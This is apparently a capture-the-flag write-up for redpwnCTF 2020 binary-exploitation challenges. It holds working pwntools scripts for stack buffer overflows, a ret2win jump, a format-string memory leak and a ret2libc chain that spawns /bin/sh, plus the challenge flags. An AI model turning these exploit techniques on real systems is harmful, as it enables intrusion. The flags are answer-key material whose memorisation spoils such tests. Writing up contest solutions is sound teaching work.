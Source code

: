 # coffer-overflow-0  
> Can you fill up the coffers? We even managed to find the source for you.  
> nc 2020.redpwnc.tf 31199  

just send a string with very long character and it will overflow the value of variable code.  
flag : `flag{b0ffer_0verf10w_3asy_as_123}`  

# coffer-overflow-1  
> The coffers keep getting stronger! You'll need to use the source, Luke.  
> nc 2020.redpwnc.tf 31255  

this time we need to actually control a value, this can be done by filling the buffer until 8 bytes before rbp and fill the 8 bytes with value `0xcafebabe`  
```python
import pwn

r = pwn.remote("2020.redpwnc.tf", 31255)
# r = pwn.process("coffer-overflow-1")
payload = "A"*24 + pwn.p64(0xcafebabe)
r.sendline(payload)
r.interactive()
```
flag : `flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}`    

# coffer-overflow-2  
> You'll have to jump to a function now!?  
> nc 2020.redpwnc.tf 31908  

this time we need to jump into `binFunction` function, this can be done by filling the buffer until it hit rbp and overflow the buffer with `binFunction` address  
```python
import pwn

pad = "A" * 16
win = pwn.p64(0x00000000004006e6)
ret = pwn.p64(0x000000000040053e)
payload = pad+ret+win

r = pwn.remote("2020.redpwnc.tf", 31908)
r.sendline(payload)
r.interactive()
```
flag : `flag{ret_to_b1n_m0re_l1k3_r3t_t0_w1n}`  

# secret-flag  
> There's a super secret flag in printf that allows you to LEAK the data at an address??  
> nc 2020.redpwnc.tf 31826  
if you look at the program on your dissasembler, you can see that our input become an argument on the printf function, however the program didn't call the printf properly, so we can input the string format `%s` and it will print a string somewhere from the stack, to control it simply do `%n$s` and it will print a random nth string somewhere from the stack.  
```python
import pwn

response = ""
i = 1
while 'flag' not in response:
	# print(i)
	print("%"+str(i)+"$s")
	try:
		r = pwn.remote("2020.redpwnc.tf", 31826)
		r.sendlineafter("adventurer?\n","%"+str(i)+"$s")
		response = r.recv().decode()
		print(response)
		i += 1
		r.close()
	except:
		pass
print(response)
```
flag : `flag{n0t_s0_s3cr3t_f1ag_n0w}`

# the-library  
> There's not a lot of useful functions in the binary itself. I wonder where you can get some...  
> nc 2020.redpwnc.tf 31350  
This is a ret2libc challenge, I got the code and explanation [here](https://tasteofsecurity.com/security/ret2libc-unknown-libc/)  
So basically we want to pop the value /bin/sh into RDI, the call system, system will read what to execute from RDI, thus executes /bin/sh
```python
from pwn import * 
p = remote("2020.redpwnc.tf", 31350)
elf = ELF("./the-library")
libc = ELF("libc.so.6")
payload = ROP(elf)

pop_rdi = (payload.find_gadget(['pop rdi', 'ret']))[0]
libc_start_main = elf.symbols['__libc_start_main']
puts_plt = elf.plt['puts']
main = elf.symbols['main']
ret = (payload.find_gadget(['ret']))[0]
pad = "A"*16 + "B"*8
payload = pad + p64(pop_rdi) + p64(libc_start_main) +  p64(puts_plt) + p64(main)

p.sendlineafter("?\n", payload)
p.recvline()
p.recvline()

leak = p.recvline().strip()
leak = u64(leak.ljust(8, "\x00"))
libc.address = leak - libc.sym["__libc_start_main"]
bin_sh = next(libc.search("/bin/sh")) 
system = libc.sym["system"]
payload = pad + p64(ret) + p64(pop_rdi) + p64(bin_sh) + p64(system)

p.sendlineafter("?\n", payload)
p.interactive()
```  
flag : `flag{jump_1nt0_th3_l1brary}`